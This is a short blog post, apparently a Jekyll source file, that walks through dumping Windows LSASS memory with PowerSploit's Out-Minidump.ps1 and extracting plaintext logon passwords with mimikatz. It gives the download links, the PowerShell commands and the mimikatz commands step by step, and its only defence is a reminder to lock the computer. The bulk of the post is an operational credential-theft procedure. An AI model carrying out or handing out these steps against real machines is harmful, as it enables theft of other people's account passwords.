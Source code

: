 ```yaml
---
layout: post
title: "Windows password vulnerability: Hackable in 5 minutes"
description: This is a simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
keywords: Windows passwords, logon password, LsaProtectMemory, LsaUnprotectMemory, lsass.exe, Windows vulnerability, mimikatz terminal, powershell script, out-minidump, minidump
tags: [Windows, PowerShell, Vulnerability, Encryption, Decryption, Engineering]
comments: true
---
```


I have come across this Windows password vulnerability as mentioned in [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes). So, I tried to reproduce the steps to see if the vulnerability is still there, and the result is really shocking me.

Yep, even in Windows 10, the method is still working nicely. **The method is not new at all.** So, let me show how you can reproduce it by using a simple exploitation tool and a PowerShell script. **Anyone can perform this hacking when you left your Windows unlocked.** I'm not really going to explain the details, just went straight to the steps.

### Getting started

First, you need to download or get this tool called [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) (just get the binary package, e.g. **mimikatz_trunk.zip**) and this PowerShell script [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) by Matthew Graeber. Let's start!

### Using PowerShell to perform memory dump

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script, **Out-Minidump.ps1**. The flow of cmdlet will look like this:

{% include figure.html src="http://i.imgur.com/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### Using mimikatz terminal program to view the passwords

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="http://i.imgur.com/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

{% include figure.html src="http://i.imgur.com/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}

Tadaa... Now I can see my actual Microsoft Account username and password in **a plain text**. As you imagine, most of people nowadays are still using the same password for almost everything. _Too bad.._ So, I expected you can picture all the consequences with this vulnerability...

### The existing vulnerability info

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

### The bottom line

**You will be safe as long as you always lock your computer when you're away.** This short article is just to remind me or anyone else to always be careful in whatever we do especially with anything to do with our passwords and personal credential information. No system is perfect! So, DON'T EVER LEAVE YOUR COMPUTER UNLOCKED!
